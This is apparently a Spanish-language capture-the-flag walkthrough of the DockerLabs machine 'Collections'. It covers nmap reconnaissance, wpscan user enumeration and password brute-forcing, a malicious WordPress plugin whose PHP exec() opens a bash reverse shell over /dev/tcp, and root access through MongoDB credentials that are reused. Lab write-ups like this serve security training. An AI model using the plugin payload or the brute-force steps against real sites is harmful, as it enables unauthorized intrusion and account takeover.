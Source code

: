 #MAQUINA #DOCKERLABS #MEDIO
#WORDPRESS #WPSCAN 
#MONGODB #MONGOSH
<hr>

# RECONOCIMIENTO

Vamos a resolver **Collections** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 09:43 CET
Initiating ARP Ping Scan at 09:43
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:43, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:43
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 27017/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:43, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-17 09:43:20 CET for 0s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 64
80/tcp    open  http    syn-ack ttl 64
27017/tcp open  mongod  syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)




```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene los puertos **80(HTTP)**, **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 09:43 CET
Nmap scan report for gatekeeperhr.com (172.17.0.2)
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 25:3f:a6:b3:1b:a8:dc:e6:ef:0a:51:a7:d6:f4:15:c9 (ECDSA)
|_  256 d1:38:83:b2:33:0d:ad:b6:44:4f:b5:6e:fb:17:08:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds



```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 09:44 CET
Nmap scan report for gatekeeperhr.com (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|   /wordpress/: Blog
|_  /wordpress/wp-login.php: Wordpress login page.
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds

whatweb "http://172.17.0.2/wordpress/"
http://172.17.0.2/wordpress/ [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], JQuery[3.7.1], MetaGenerator[WordPress 6.5.3], Script[importmap,module], Title[Mi Web Maravillosa], UncommonHeaders[link], WordPress[6.5.3]


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

Tenemos un **wordpress**.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vamos a utilizar **wpscan** :

```bash
wpscan --url "http://172.17.0.2/wordpress/" --enumerate u
[i] User(s) Identified:

[+] chocolate
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

```

```bash
wpscan --url "http://172.17.0.2/wordpress/" -U chocolate --passwords /usr/share/wordlists/rockyou.txt

[!] Valid Combinations Found:
 | Username: chocolate, Password: chocolate


```

# EXPLOTACION

Nos vamos a plugins y subimos y activamos un plugin. Vamos a subir un zip que nos otorgue una reverse shell y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**).
Contenido del zip, un php con:

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Al hacer un **ps -ef,** vemos que hay un mongo corriendo, vamos a echarle un ojo:

```bash
mongosh
accesos> show dbs
accesos  40.00 KiB
admin    40.00 KiB
config   60.00 KiB
local    40.00 KiB
accesos> use accesos
already on db accesos
accesos> show collections
usuarios
accesos> db.usuarios.find()
[
  {
    _id: ObjectId('6645f4456682cdae1b46b799'),
    nombre: 'dbadmin',
    'contraseña': 'chocolaterequetebueno123'
  }
]

```

YA ESTAMOS COMO DBADMIN.

REUTILIZAMOS CONTRA CON ROOT

**YA ESTAMOS COMO ROOT.**